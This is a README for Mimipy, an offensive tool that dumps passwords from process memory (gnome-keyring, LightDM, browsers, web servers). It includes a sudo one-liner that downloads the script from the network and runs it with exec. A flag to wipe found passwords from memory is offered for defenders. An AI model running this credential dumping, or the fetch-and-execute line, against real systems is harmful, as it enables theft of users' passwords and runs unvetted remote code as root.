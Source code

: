 # Mimipy
Tool to dump passwords from various processes memory. Works on windows/linux/OSX !
Features :
- Embbed technique from @huntergregal's [mimipenguin.sh](https://github.com/huntergregal/mimipenguin) to dump passwords from gnome-keyring with some additional features :
    - can dump passwords from lightDM
    - possibility to mitigate the attack by overwriting passwords found in memory (you might want to add a cron)
- find GET/POST/Basic passwords from browsers memory or HTTP Servers
- function to search for any trace of your password in all your processes
- function to scan a process by pid with all techniques available

## Install
you can install memorpy and run mimipy.py or directly use the packed version that doesn't require any dependency
```bash
python packed/mimipy.py
```
you can also use one the following oneliner :
```bash
sudo python -c 'import urllib;exec urllib.urlopen("https://raw.githubusercontent.com/n1nj4sec/mimipy/master/packed/mimipy.py").read()'
```

## Usage
```bash
usage: mimipy.py [-h] [--clean] [-v] [-p PID] [--search-password]

optional arguments:
    -h, --help         show this help message and exit
    --clean            @blueteams protect yourself and clean found passwords from memory ! You might want to regularly run this on your workstation/servers
    -v, --verbose      be more verbose !
    -p PID, --pid PID  choose the process's pid to scan instead of automatic selection
    --search-password  prompt for your password and search it in all your processes !.
```

## Contact
by mail: contact@n1nj4.eu  
on Twitter: [Follow me on twitter](https://twitter.com/n1nj4sec)

## Special thanks
Special thanks to @huntergregal for releasing his mimipenguin.sh idea and @gentilwiki for the awesome mimikatz tool

